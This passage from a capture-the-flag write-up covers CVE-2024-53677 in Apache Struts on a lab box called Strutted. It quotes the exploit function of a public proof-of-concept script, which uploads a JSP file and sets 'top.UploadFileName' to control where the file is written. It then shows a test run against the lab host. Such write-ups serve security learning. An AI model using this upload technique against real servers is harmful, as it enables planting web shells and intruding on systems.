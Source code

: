 One critical thing I figured out through a lot of pain was that for the interceptor to handle the POST request, it must have the name “Upload” (with a capital “U”).

#### POC

There’s a [POC exploit script](https://github.com/EQSTLab/CVE-2024-53677) on from EQSTLab. It doesn’t work for Strutted, but it’s still worth a look. The important part is the `exploit` function:

```

    def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")

```

It’s going to send a HTTP POST request with form data (using `files` in `requests.post`), sending first the “Upload” parameter and then `top.UploadFileName`.

If I run this on Strutted, giving it a file name to move the file to of `test.txt`, it makes the post request, and reports success, but the HTML shows it didn’t upload:

```

oxdf@hacky$ python CVE-2024-53677.py -u http://strutted.htb/upload.action -p 'test.txt'
...[snip]...
[\] Loading, please wait...
Status Code: 200
Response Text:
...[snip]...
                    <div class="alert alert-danger text-center" role="alert">

                            Only image files can be uploaded!

                    </div>
...[snip]...
File uploaded successfully.

```

It wouldn’t be too hard to update this script to work on Strutted, but I’ll exploit it in Burp Repeater.
